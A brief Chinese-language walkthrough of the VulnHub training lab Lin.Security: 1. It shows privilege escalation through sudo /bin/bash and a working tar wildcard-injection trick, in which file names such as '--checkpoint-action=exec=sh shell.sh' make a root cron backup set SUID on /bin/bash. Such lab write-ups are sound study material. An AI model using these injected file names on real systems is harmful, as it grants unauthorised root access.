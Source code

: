 # Lin.Security: 1

2024-4-22 https://www.vulnhub.com/entry/linsecurity-1,244/

difficulty: easy to intermediate

## IP

192.168.10.174

## Scan

首先，靶场给我们提供了一个用户凭证：bob/secret，登陆后尝试进行多个攻击面的枚举，发现权限提升点。

sudo -l 发现 bob 用户有多个可以执行的 sudo 程序，可以直接使用 sudo /bin/bash 提升到 root 权限。其他的一些 SUDO 程序也可以进行权限提升，具体参考 https://gtfobins.github.io/ 中的使用方法，比较简单。

cat /etc/crontab 发现最后一行有一个以 root 用户执行的定时备份脚本，查看 /etc/cron.daily/backup 内容，发现是对/home 目录中的文件和文件目录进行定时备份，其中使用了 tar 命令，那么我们就能够利用 tar 在打包时，去执行特定的命令。

```bash
cd /home/bob
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" >> --checkpoint=1

# tar 执行完毕后执行下面命令
/bin/bash -p
```
